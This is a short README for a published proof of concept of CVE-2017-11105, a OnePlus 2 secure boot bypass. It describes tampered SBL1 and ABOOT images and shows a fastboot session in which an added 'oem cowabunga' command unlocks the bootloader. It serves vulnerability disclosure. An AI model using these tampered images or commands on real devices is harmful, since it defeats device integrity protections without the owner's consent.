 ## PoC for CVE-2017-11105: OnePlus 2 Lack of SBL1 Validation Broken Secure Boot ##

By Roee Hay / Aleph Research


`sbl1-3.5.8-tampered.mbn`: Tampered SBL1 image that does not validate the rest of the chain
`emmc_appsboot.mbn`: Tampered ABOOT image that includes a new command `oem cowabunga`, that temporarily unlocks the device.

Flashing these will give you some pizza:

```
$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: true
(bootloader)    Device unlocked: false
(bootloader)    Device is_verified: false

$ fastboot oem cowabunga
...
FAILED (remote: pizza)
finished. total time: 0.020s

$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: false
(bootloader)    Device unlocked: true
(bootloader)    Device is_verified: false
```

Verified on OxygenOS 3.6.0.

Advisory and PoC details can be found [here](https://alephsecurity.com/vulns/aleph-2017026)

